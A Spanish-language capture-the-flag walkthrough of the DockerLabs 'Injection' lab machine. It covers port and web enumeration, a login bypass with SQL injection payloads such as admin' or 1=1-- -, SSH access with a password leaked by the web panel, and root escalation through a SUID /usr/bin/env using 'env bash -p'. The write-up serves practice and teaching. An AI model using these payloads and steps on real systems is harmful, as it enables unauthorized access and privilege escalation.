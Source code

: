 - Tags: #InjectionDockerLabs
---
[Maquina Injection](https://mega.nz/file/rZlAERjY#152uP-zS7pTC0hbPaZB7aO6_puij633u4pW-jpMuctk) ==> Enlace de descarga a esta maquina que estaremos auditando. Descargamos el comprimido y una ves descargado procdemos a descomprimir.
```bash
7z x injection.zip
```
---
- Ya descomprimido desplegamos el contenedor.
```bash
sudo bash auto_deploy.sh injection.tar
```
---
- Esta es la direccion ip del **target**:
```bash
Máquina desplegada, su dirección IP es --> 172.17.0.2
```
---

- #### Fase Reconocimiento:
- Procedemos a detectar ante que nos estamos enfrentando con las siguientes herramientas:
```bash
ping -c 1 172.17.02 # Tenemos un ttl 64

wichSystem.py 172.17.0.2 # Nuestra utilidad nos reporta que estamos ante una maquina linux

172.17.0.2 (ttl -> 64): Linux
```
---
- #### Fase Escaneo Puertos:
- Procedemos a realizar escaneo para detectar los puertos expuestos del **target**, Usaremos nuestra herramienta ( `extractPorts` ) para parsear la informacion mas importante.
```bash
 nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts

22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64

 extractPorts allPorts
```
---
- Una ves optenido la informacion mas importante procedemos a relalizar un escaneo exhaustivo de los puertos expuestos de la maquina:
```bash
nmap -sC -sV -p22,80 172.17.0.2 -oN targeted 
```
---
- **( 22/tcp open  ssh     OpenSSH 8.9p1 )** ==> Tenemos un servicio ssh desactualizada, La version mas reciente es: **( ssh 10.0 )**, 
```bash
searchsploit ssh user enumeration # No encontramos un exploit de enumeracon para esta version
```
---
- **( 80/tcp open  http    Apache httpd 2.4.52 )** ==> Tenemos un servico de **apache2** Donde la version mas reciente es: **( 2.4.63 )**
- **( Apache httpd 2.4.52 )** ==> Gracias al **codeName** podemos ver en **LauncPad** que estamos ante una posible version de: **( ubuntuJammy )**
```bash
nmap --script http-enum -p80 172.17.0.2 -oN webScan # Nmap no encontro nada
```
---
- **( PHPSESSID:  httponly flag not set )** ==> Tenemos esta posible falla de seguridad
- **Nota** ==> El parámetro **`PHPSESSID`** es una cookie utilizada por PHP para gestionar sesiones de usuario. Su presencia en sí misma no es un problema de seguridad, pero su configuración puede indicar riesgos si no se implementan buenas prácticas. En tu caso, el escaneo muestra que la cookie no tiene el atributo **`HttpOnly`**, lo que puede ser una vulnerabilidad en ciertos contextos. 
- **`HttpOnly`**:  Es un atributo de seguridad que restringe el acceso a la cookie desde JavaScript, mitigando ataques de **Cross-Site Scripting (XSS)**. Si no está presente, un atacante podría robar la cookie mediante scripts maliciosos. La falta de `HttpOnly` en `PHPSESSID` no es un fallo crítico por sí sola, pero es un indicador de que la seguridad de las cookies no está optimizada

- #### Fase Reconocimiento Web:
- **( http://172.17.0.2/ )** ==> Si accedemos al recurso tendremos un panel de inicio de sesion.
- Usamos la herramineta: ( `whatweb ` ), y tambien: ( `wappalyzer` ) no nos reporta mucha informacion relevante
```bash
 whatweb 172.17.0.2
http://172.17.0.2 [200 OK] Apache[2.4.52], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[172.17.0.2], PasswordField[password], Title[Iniciar Sesión]
```
- Procedemos a realizar un reconocimineto de rutas y subdominios bajo este direccon ip:
```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 20 --add-slash # Solo descubrimos dos rutas con codigo de estado 403

gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 20 -x php,js,html.back,php.back # Descubrimos archivos potenciales pero aun no podemos ver nada critico

/.html.back           (Status: 403) [Size: 275]
/index.php            (Status: 200) [Size: 2921]
/config.php           (Status: 200) [Size: 0]
```
---
- Asi mismo realizamos la peticion al **backup** por terminal pero no podemos acceder
```bash
curl -s -X GET "http://172.17.0.2/.html.back/"; echo
```
---
- #### Fase Prueba Login:
- **( SQL Injection )** Procedemos a auditar el panel de inicio de session, Logrando romper la consulta sql ya que al poner en el panel:
```bash
username: admin'
password: admin'

SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'root;'' at line 1
```
---
- Accedimos al panel de session con la siguiete SQLInjection y cualquier contrasena:
```bash
adminfdfasfdf' union select 1,2-- -
admin' or 1=1-- -
```
---
- Dentro de la session del usuario, Tenemos acceso al la cuenta del usuario: **( Dylan )** en el panel de administracion nos muestra una posible **password** de usuario, Sabemos que el servicio **ssh** esta expuesto por lo cual intentamos conectarnos atraves de ssh
```bash
Bienvenido Dylan! Has insertado correctamente tu contraseña: KJSDFG789FGSDF78
```
---
- Iniciamos la conexion por **ssh**
```bash
ssh dylan@172.17.0.2
```
---
- Proporcionamos la **password** filtrada de la web, Logrando el acceso al **target**
```bash
hostname -I ==>172.17.0.2 

whoami ==> dylan
```
---
- #### Escalada Privilegios:
- **( /var/www/html )** ==> En esta ruta encontramos archivos criticos y credenciales de inicio de sesion de la base de datos en: **( config.php )**
- **( SUID )** ==> Realizamos una busqueda por permisos **SUID** para poder obtener un vector de una posible escalada de privilegios:
```bash
find / -perm -4000 2>/dev/null
```
---
- Detectamos este binario con permisos elevados.
```bash
-rwsr-xr-x 1 root root        43976 Jan  8  2024 /usr/bin/env
```
---
- [GTFOBins](https://gtfobins.github.io/gtfobins/env/#suid) ==> Ahora tenemos una via potencial de elevar privilegios, Buscamos en esta web sobre este binario, Nos proporcionan un vector de ataque para elevar nuestro privilegio.
```bash
/usr/bin/env bash -p
```
---
- Ahora tendremos una **bash** privilegiada como **root**
```bash
whoami ==> root
```
---